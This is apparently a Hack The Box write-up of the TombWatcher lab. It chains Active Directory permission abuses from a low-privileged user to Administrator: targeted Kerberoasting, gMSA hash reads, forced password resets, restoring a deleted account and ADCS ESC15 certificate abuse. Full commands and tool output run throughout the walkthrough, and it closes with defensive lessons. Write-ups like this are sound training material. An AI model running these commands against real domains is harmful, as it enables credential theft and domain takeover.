






HTB TombWatcher
Machine / Target Info
| Difficulty | Medium |
|---|---|
| OS | Windows / Active Directory |
| Focus | BloodHound, targeted Kerberoasting, gMSA password retrieval, AD object ACL abuse, AD Recycle Bin, AD CS ESC15 |
Summary
TombWatcher starts as an assumed-breach Windows Active Directory machine. The provided user
henry has WriteSPN over alfred, which makes it possible to perform a
targeted Kerberoast attack. After cracking alfred's ticket, I used the new account to continue
following the BloodHound path through group membership, gMSA access, password resets, and object ownership abuse.
The main attack chain was: henry to alfred, alfred to the
Infrastructure group, Infrastructure to the ansible_dev$ gMSA account,
ansible_dev$ to sam, sam to john, and then john
to the ADCS OU. From there, I restored the deleted cert_admin account, reset its password,
abused the vulnerable WebServer template through ESC15, requested a certificate for
Administrator, and used it to get administrative access over WinRM.
Enumeration
I started with a full TCP port scan to identify exposed services on the target. The scan showed DNS, Kerberos, LDAP, SMB, WinRM, AD Web Services, and multiple RPC ports, which strongly indicated that the host was a Domain Controller.
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ nmap -sC -sV -p- 10.129.232.167
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-29 14:16 -0400
Nmap scan report for 10.129.232.167
Host is up (0.025s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
80/tcp open http Microsoft IIS httpd 10.0
88/tcp open kerberos-sec Microsoft Windows Kerberos
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP
3268/tcp open ldap Microsoft Windows Active Directory LDAP
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP
5985/tcp open http Microsoft HTTPAPI httpd 2.0
9389/tcp open mc-nmf .NET Message Framing
49667/tcp open msrpc
49695/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49696/tcp open msrpc
49698/tcp open msrpc
49715/tcp open msrpc
49718/tcp open msrpc
Service Info: Host: DC01; OS: Windows
I added the domain and domain controller hostname to /etc/hosts so LDAP, Kerberos, BloodHound,
and Certipy could resolve the target properly.
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ echo "10.129.232.167 tombwatcher.htb dc01.tombwatcher.htb" | sudo tee -a /etc/hostsSMB Enumeration
The box provides the starting credentials henry / H3nry_987TGV!. I first validated the
credentials and listed the available SMB shares with NetExec.
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ nxc smb 10.129.232.167 -u 'henry' -p 'H3nry_987TGV!' --shares
SMB 10.129.232.167 445 DC01 [+] tombwatcher.htb\henry:H3nry_987TGV!
SMB 10.129.232.167 445 DC01 [*] Enumerated shares
Share Permissions Remark
----- ----------- ------
ADMIN$ Remote Admin
C$ Default share
IPC$ READ Remote IPC
NETLOGON READ Logon server share
SYSVOL READ Logon server shareInitial BloodHound Collection
With valid domain credentials, I collected BloodHound data to look for outbound rights from the
henry user.
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ sudo bloodhound-python -u 'henry' -p 'H3nry_987TGV!' -ns 10.129.232.167 -d tombwatcher.htb -c all
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: tombwatcher.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.tombwatcher.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Found 9 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Done in 00M 04S
After marking henry as owned in BloodHound, the first useful edge was
WriteSPN over alfred. This is useful because an attacker can add an SPN to the target
account and request a Kerberos service ticket encrypted with that user's password hash.

Foothold
Targeted Kerberoast: henry to alfred
I used targetedKerberoast with the henry credentials. The tool adds an SPN to the
target account, requests a TGS, prints the Kerberoast hash, and then the hash can be cracked offline.
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ targetedKerberoast -v -d 'tombwatcher.htb' -u 'henry' -p 'H3nry_987TGV!'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (Alfred)
[+] Printing hash for (Alfred)
$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*$<hash-redacted>
I saved the Kerberoast hash to a file and cracked it with Hashcat mode 13100.
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*$<hash-redacted>:basketballThis gave me the next valid domain credential:
alfred : basketballI confirmed that the new credentials worked against SMB.
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ nxc smb 10.129.232.167 -u alfred -p 'basketball'
SMB 10.129.232.167 445 DC01 [+] tombwatcher.htb\alfred:basketballLateral Movement
AddSelf: alfred to Infrastructure
After marking alfred as owned in BloodHound, the next useful edge was AddSelf over
the Infrastructure group. This means alfred can add itself to that group.

┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ bloodyad --host "10.129.232.167" -d "tombwatcher.htb" -u "alfred" -p "basketball" add groupMember "Infrastructure" "alfred"
[+] alfred added to Infrastructure
I also verified the group membership using net rpc.
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ net rpc group members "Infrastructure" -U tombwatcher.htb/alfred%'basketball' -S 10.129.232.167
TOMBWATCHER\AlfredReadGMSAPassword: Infrastructure to ansible_dev$
BloodHound showed that the Infrastructure group can read the gMSA password for
ansible_dev$. A gMSA password is managed by Active Directory and stored in the
msDS-ManagedPassword attribute, but only approved principals can read it.

I used NetExec's --gmsa option to retrieve the NTLM hash for ansible_dev$.
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ nxc ldap 10.129.232.167 -u alfred -p 'basketball' --gmsa
LDAP 10.129.232.167 389 DC01 [+] tombwatcher.htb\alfred:basketball
LDAP 10.129.232.167 389 DC01 [*] Getting GMSA Passwords
LDAP 10.129.232.167 389 DC01 Account: ansible_dev$ NTLM: cba56cd2df7d642f622e2a59956f6d47 PrincipalsAllowedToReadPassword: Infrastructure
I then verified that the ansible_dev$ hash worked.
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ nxc smb 10.129.232.167 -u 'ansible_dev$' -H 'cba56cd2df7d642f622e2a59956f6d47'
SMB 10.129.232.167 445 DC01 [+] tombwatcher.htb\ansible_dev$:cba56cd2df7d642f622e2a59956f6d47ForceChangePassword: ansible_dev$ to sam
The next BloodHound edge showed that ansible_dev$ has ForceChangePassword over
sam. This allows us to reset sam's password without knowing the old password.

┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ bloodyad --host "10.129.232.167" -d "tombwatcher.htb" -u "ansible_dev$" -p ":cba56cd2df7d642f622e2a59956f6d47" set password "sam" "password123"
[+] Password changed successfully!
I verified the new sam credentials with SMB.
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ nxc smb 10.129.232.167 -u sam -p 'password123'
SMB 10.129.232.167 445 DC01 [+] tombwatcher.htb\sam:password123WriteOwner: sam to john
BloodHound showed that sam has WriteOwner over john. With WriteOwner,
I could change the owner of the john object to sam. After becoming the owner, I could
grant sam GenericAll over john and reset john's password.

┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ bloodyad --host "10.129.232.167" -d "tombwatcher.htb" -u "sam" -p "password123" set owner john sam
[+] Old owner S-1-5-21-1392491010-1358638721-2126982587-512 is now replaced by sam on john
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ bloodyad --host "10.129.232.167" -d "tombwatcher.htb" -u "sam" -p "password123" add genericAll john sam
[+] sam has now GenericAll on john
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ bloodyad --host "10.129.232.167" -d "tombwatcher.htb" -u "sam" -p "password123" set password john 'password123'
[+] Password changed successfully!
I verified that john worked and confirmed WinRM access.
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ nxc smb 10.129.232.167 -u john -p 'password123'
SMB 10.129.232.167 445 DC01 [+] tombwatcher.htb\john:password123
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ nxc winrm 10.129.232.167 -u john -p 'password123'
WINRM 10.129.232.167 5985 DC01 [+] tombwatcher.htb\john:password123 (Pwn3d!)WinRM as john
Since john is allowed to use WinRM, I used Evil-WinRM to get an interactive shell. The user
flag was located in C:\Users\john\Desktop\user.txt.
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ evil-winrm -i 10.129.232.167 -u john -p 'password123'
Evil-WinRM shell v3.9
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\john\Documents> whoami
tombwatcher\john
*Evil-WinRM* PS C:\Users\john\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\john\Desktop> dir
Mode LastWriteTime Length Name
---- ------------- ------ ----
-ar--- 5/29/2026 6:14 PM 34 user.txt
*Evil-WinRM* PS C:\Users\john\Desktop> type user.txt
<user-flag-redacted>Privilege Escalation
GenericAll: john to ADCS OU
Back in BloodHound, john had GenericAll over the ADCS organizational unit.
At first, the OU did not directly contain anything useful, but it became important after identifying a
deleted certificate-related account that originally belonged to this OU.

AD CS Enumeration
I enumerated AD CS as john. The important clue was inside the WebServer template:
Certipy showed an unresolved SID in the enrollment permissions. A SID that does not resolve to a normal
username can indicate a deleted object that still has permissions on the template.
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ certipy-ad find -u 'john' -p 'password123' -dc-ip 10.129.232.167 -enabled -stdout
Certipy v5.0.4 - by Oliver Lyak (ly4k)
[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[!] Failed to lookup object with SID 'S-1-5-21-1392491010-1358638721-2126982587-1111'
Certificate Authorities
0
CA Name : tombwatcher-CA-1
DNS Name : DC01.tombwatcher.htb
Web Enrollment : Disabled
Request Disposition : Issue
Enforce Encryption for Requests : EnabledFinding the Deleted cert_admin Account
From the WinRM shell, I searched the deleted objects container for the unresolved SID. The result showed
a deleted user named cert_admin with the object GUID
938182c3-bf0b-410a-9aaa-45c8e1a02ebf. The key attribute was LastKnownParent, which
pointed back to OU=ADCS,DC=tombwatcher,DC=htb.
*Evil-WinRM* PS C:\Users\john\Documents> Get-ADObject -Filter 'objectSid -eq "S-1-5-21-1392491010-1358638721-2126982587-1111"' -Properties * -IncludeDeletedObjects
CanonicalName : tombwatcher.htb/Deleted Objects/cert_admin
DEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf
CN : cert_admin
DEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf
Deleted : True
DistinguishedName : CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb
isDeleted : True
LastKnownParent : OU=ADCS,DC=tombwatcher,DC=htb
ObjectClass : user
ObjectGUID : 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
objectSid : S-1-5-21-1392491010-1358638721-2126982587-1111
sAMAccountName : cert_admin
Since john controlled the ADCS OU, restoring cert_admin back into that OU made
it possible to control the restored account and reset its password.
*Evil-WinRM* PS C:\Users\john\Documents> Restore-ADObject -Identity "938182c3-bf0b-410a-9aaa-45c8e1a02ebf"
After restoring the object, I made sure john had full control over the ADCS OU path and
then reset cert_admin's password.
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ bloodyad --host "10.129.232.167" -d "tombwatcher.htb" -u "john" -p "password123" add genericAll "OU=ADCS,DC=TOMBWATCHER,DC=HTB" john
[+] john has now GenericAll on OU=ADCS,DC=TOMBWATCHER,DC=HTB
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ bloodyad --host "10.129.232.167" -d "tombwatcher.htb" -u "john" -p "password123" set password "cert_admin" "password123"
[+] Password changed successfully!ESC15 Abuse
I then ran Certipy again as cert_admin. This time, the vulnerable WebServer template was
usable because cert_admin had enrollment rights. The template was vulnerable to ESC15:
it was schema version 1 and allowed the enrollee to supply the subject. This allowed me to request a
certificate with the Certificate Request Agent application policy.
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ certipy-ad find -u "cert_admin" -p "password123" -dc-ip 10.129.232.167 -vulnerable -enabled -stdout
Template Name : WebServer
Display Name : Web Server
Certificate Authorities : tombwatcher-CA-1
Enabled : True
Enrollee Supplies Subject : True
Schema Version : 1
Enrollment Rights : TOMBWATCHER.HTB\cert_admin
[!] Vulnerabilities
ESC15 : Enrollee supplies subject and schema version is 1.
First, I requested a certificate as cert_admin with the Certificate Request Agent application policy
OID 1.3.6.1.4.1.311.20.2.1.
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ certipy-ad req -ca tombwatcher-CA-1 -username cert_admin -p 'password123' -dc-ip 10.129.232.167 -template WebServer -application-policies '1.3.6.1.4.1.311.20.2.1' -target-ip 10.129.232.167
Certipy v5.0.4 - by Oliver Lyak (ly4k)
[*] Requesting certificate via RPC
[*] Request ID is 4
[*] Successfully requested certificate
[*] Got certificate without identity
[*] Certificate has no object SID
[*] Saving certificate and private key to 'cert_admin.pfx'
[*] Wrote certificate and private key to 'cert_admin.pfx'
Then I used that certificate to request a certificate on behalf of the domain Administrator.
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ certipy-ad req -u 'cert_admin' -p 'password123' -dc-ip 10.129.232.167 -target-ip 10.129.232.167 -ca tombwatcher-CA-1 -template User -on-behalf-of 'tombwatcher\administrator' -pfx cert_admin.pfx
Certipy v5.0.4 - by Oliver Lyak (ly4k)
[*] Requesting certificate via RPC
[*] Request ID is 6
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@tombwatcher.htb'
[*] Certificate object SID is 'S-1-5-21-1392491010-1358638721-2126982587-500'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'Authenticating as Administrator
Finally, I authenticated with administrator.pfx and retrieved the Administrator NT hash.
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ certipy-ad auth -dc-ip 10.129.232.167 -pfx administrator.pfx
Certipy v5.0.4 - by Oliver Lyak (ly4k)
[*] Certificate identities:
[*] SAN UPN: 'administrator@tombwatcher.htb'
[*] Security Extension SID: 'S-1-5-21-1392491010-1358638721-2126982587-500'
[*] Using principal: 'administrator@tombwatcher.htb'
[*] Trying to get TGT
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@tombwatcher.htb': aad3b435b51404eeaad3b435b51404ee:<administrator-nt-hash>
When using Evil-WinRM with a hash, I used only the NT portion of the hash with -H.
┌──(kali㉿kali)-[~/prac/cpts_prac]
└─$ evil-winrm -i 10.129.232.167 -u 'administrator' -H '<administrator-nt-hash>'
Evil-WinRM shell v3.9
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir
Mode LastWriteTime Length Name
---- ------------- ------ ----
-ar--- 5/29/2026 6:14 PM 34 root.txt
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
<root-flag-redacted>Lessons Learned
TombWatcher was a strong example of how Active Directory compromise often comes from chaining several
small permissions together rather than finding one obvious vulnerability. The initial henry
account did not provide shell access, but each BloodHound edge revealed another controlled step toward
domain compromise.
-
WriteSPNcan turn into credentials. Even without knowingalfred's password,henry's ability to write an SPN allowed a targeted Kerberoast attack and offline password cracking. -
Group membership edges matter.
AddSelfover theInfrastructuregroup looked simple, but it unlocked access to theansible_dev$gMSA password. -
gMSA read permissions are high-impact.
Reading
msDS-ManagedPasswordgave a usable NTLM hash foransible_dev$, which became the next pivot in the chain. -
Password reset rights are direct privilege escalation paths.
ForceChangePasswordoversamallowed a password reset without knowing the old password. -
WriteOwneris dangerous because ownership leads to control. By taking ownership ofjohn, I could grantGenericAlland reset the account password. -
Deleted AD objects can still matter.
The unresolved SID in the certificate template led to a deleted
cert_adminaccount. Restoring it through the AD Recycle Bin turned a stale permission into a working privilege escalation path. -
AD CS templates should be reviewed carefully.
The vulnerable
WebServertemplate exposed anESC15path, allowing a certificate request chain that ended with Administrator authentication.
The main takeaway is that defenders should not review ACLs, gMSA permissions, deleted objects, and AD CS templates in isolation. TombWatcher showed that each one may look limited by itself, but together they can create a full path from a low-privileged user to Domain Admin.